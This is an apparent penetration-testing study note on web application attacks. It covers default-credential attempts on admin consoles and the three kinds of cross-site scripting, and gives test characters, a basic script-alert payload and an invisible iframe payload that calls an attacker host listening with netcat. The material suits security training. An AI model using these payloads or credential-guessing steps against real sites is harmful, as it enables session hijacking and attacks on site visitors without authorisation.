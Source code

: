 # Web application attacks

Web applications often contain vulnerabilities due to a large attack surface reliant on multiple technologies, dependencies and configuration challenges.  

### Admin Consoles

Attempt to login with known common username/password pairs and check Google for default credentials \(for commercial products such as Content Management Systems\).  Brute force is an option but shouldn't be our first choice.  Brute forcing often results in undesired consequences, such as IP banning/lockout or detection.

### Cross site scripting

Well-designed web pages typically sanitize user inputs to remove dangerous characters or strings.  Cross site scripting occurs when data is not sanitized and attackers are able to inject inputs that are subsequently displayed on the web page.

There are three variants of cross-site scripting:

* Stored - occurs when the injected payload is stored on the server.  The payload is subsequently displayed to anyone who visits the page.
* Reflected - occurs when injected payloads are placed into the page content through a form or link.  Reflected XSS only affects the person performing the action.
* DOM-Based - take place solely in a page's Document Object Model \(DOM\).

All three variants can result in session hijacking, redirects and script execution.

#### Detecting

Detection is accomplished through reviewing web pages for input fields and testing to determine if those fields accept unsanitized inputs. Commonly sanitized characters \(useful for testing\) include:

```text
< > ' " { } ;
```

To test we include some of these characters in our input, and view the server responses to determine if they were filtered.  Next, we can attempt a basic XSS payload.

```text
<script>alert('XSS')</script>
```

If successful, we should see a popup displayed when we refresh the page.

#### **iFrame injection and redirection**

A more malicious version of this attacks includes injecting invisible iframes into a victims browser.  

```text
<iframe SRC=”http://10.11.0.5/report” height= “0” width= “0”></iframe>
```

When the victim visits the infected page, their browser attempts to download the linked item and establishes a connection with the attacking machine \(requires a netcat listener on port 80\)
